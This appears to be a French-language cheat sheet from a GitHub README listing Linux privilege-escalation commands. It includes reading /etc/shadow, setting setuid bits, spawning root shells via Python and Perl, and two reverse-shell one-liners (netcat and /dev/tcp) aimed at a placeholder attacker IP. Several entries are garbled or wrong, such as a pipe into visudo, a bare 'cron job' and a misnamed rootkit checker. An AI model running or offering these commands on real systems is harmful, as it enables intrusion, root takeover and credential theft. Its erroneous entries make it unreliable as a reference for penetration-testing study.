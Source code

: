 ## Escalade de Privilèges - Linux

```sudo -l``` : Liste des commandes sudo autorisées pour l'utilisateur actuel

```find / -perm -4000``` : Recherche des fichiers avec le bit setuid activé

```find / -perm -2000``` : Recherche des fichiers avec le bit setgid activé

```ls -la /etc/sudoers.d/ | visudo``` : Vérifie les fichiers de configuration sudo

```cat /etc/passwd``` : Liste des utilisateurs

```cat /etc/shadow``` : Affiche les mots de passe chiffrés (nécessite des privilèges)

```chmod +s /path/to/executable``` : Définit le bit setuid sur un exécutable

```python -c 'import os; os.setuid(0); os.system("/bin/bash")'``` : Exécution d'une commande avec les privilèges root via Python

```perl -e 'exec "/bin/bash";'``` : Escalade de privilèges via Perl

```nc -e /bin/bash <attacker-ip> <port>``` : Shell inverse avec netcat (si autorisé)

```/bin/bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1``` : Shell inverse via Bash

```dmesg | grep -i 'version'``` : Recherche de la version du noyau (pour trouver des exploits de vulnérabilité du noyau)

```ls /lib/x86_64-linux-gnu/ld-*.so``` : Recherche des chemins vers le chargeur dynamique

```env VAR='bash -i' sudo -u root /bin/bash``` : Exécution de Bash avec les privilèges root via sudo

```su -``` : Changer d'utilisateur (si privilèges nécessaires)

```cron job``` : Exploitation des tâches cron mal configurées pour l'escalade

```auditctl -l``` : Vérifie les règles d'audit pour détecter des privilèges inutiles

```checkrootkit``` : Détecte des rootkits pour escalader les privilèges

